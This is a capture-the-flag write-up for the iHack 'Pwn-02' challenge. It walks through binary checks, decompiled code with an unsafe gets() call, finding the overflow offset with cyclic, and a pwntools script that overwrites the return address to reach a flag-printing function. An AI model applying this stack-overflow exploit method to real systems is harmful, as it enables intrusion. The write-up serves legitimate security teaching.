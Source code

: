 # Pwn-02

> **Flag Format:** `ihack{MD5}`
> 
> **Remote Instance:** `nc pwn2.ihack.sibersiaga.my 1389`

### Basic File Checks
Perform basic file checks regarding the architecture of the given binary. It is `32-bit`, `LSB`, `statically linked` & `not stripped`. 

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ file chal_      
chal_: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=5358fac57714ea7cb10bc80150f5e24a113a6bf9, for GNU/Linux 3.2.0, not stripped
```

Perform binary protection checks to get an overall idea on where to start tackling the challenge. `NX enabled` indicating that shellcode injection may not be the intended solution.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ checksec --file=chal_             
[*] '/home/kali/Desktop/iHack/pwn/pwn-02/chal_'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Analysis
The binary to vulnerable to a Buffer Overflow attack due to the use of deprecated `gets` in the `echo` function. By exploiting this vulnerability, we can overwrite the return address to any function that we control.

```
void echo(void)

{
  char local_20 [24];
  
  putchar(10);
  puts("Hello There! Im echo bot =) I can say anything you want me to say ");
  putchar(10);
  puts("Enter some text:");
  fflush((FILE *)stdout);
  fflush((FILE *)stdin);
  gets(local_20);
  printf("You entered: %s\n",local_20);
  return;
}
```

There is also another function `ZmxhZ2hlcmUh` that prints out the flag on the remote instance. Since `PIE` is disabled, we can grab the address of this function in `Ghidra`, which is `0804988b`.

```
void ZmxhZ2hlcmUh(void)

{
  puts("Congratulations! Here is your flag!");
  system("cat flag.txt");
  return;
}
```

To find the buffer limit, we can use the `cyclic` module from `pwntools`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ cyclic 80            
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```

```
pwndbg> run
Starting program: /home/kali/Desktop/iHack/pwn/pwn-02/chal_ 
 _______ _______ _______ _______ _______ _______ _______ _______ _______ 
|     /|     /|     /|     /|     /|     /|     /|     /|     /|
| +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ |
| |   | | |   | | |   | | |   | | |   | | |   | | |   | | |   | | |   | |
| |I  | | |h  | | |a  | | |c  | | |k  | | |2  | | |0  | | |2  | | |2  | |
|/      |/      |/     |/     |/     |/     |/     |/     |/     |
 _______ _______ _______ _______ _______ _______ _______ _______ _______|
 
Hello There! Im echo bot =) I can say anything you want me to say 

Enter some text:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
You entered: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGSEGV, Segmentation fault.
0x61616169 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────────────────────────────
 EAX  0x5e
 EBX  0x61616167 ('gaaa')
 ECX  0x0
 EDX  0x0
 EDI  0x1
 ESI  0x80f1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 EBP  0x61616168 ('haaa')
 ESP  0xffffd030 ◂— 'jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
 EIP  0x61616169 ('iaaa')
 
pwndbg> cyclic -l iaaa
32
```

### Solution
We can automate the process using `pwntools` as follows:

```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./chal_')
rop = ROP(elf)

p = remote('pwn2.ihack.sibersiaga.my', 1389)

def exploit():

    padding = b'A'*32
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['ZmxhZ2hlcmUh']

    payload = padding
    payload += p32(ret)
    payload += p32(flag)

    print(p.recvuntil(b':\n'))

    print(payload)
    p.sendline(payload)

    print(p.recvall())

def main():
  exploit()

if __name__ == "__main__":
  main()
```

**Flag:** `ihack{}`

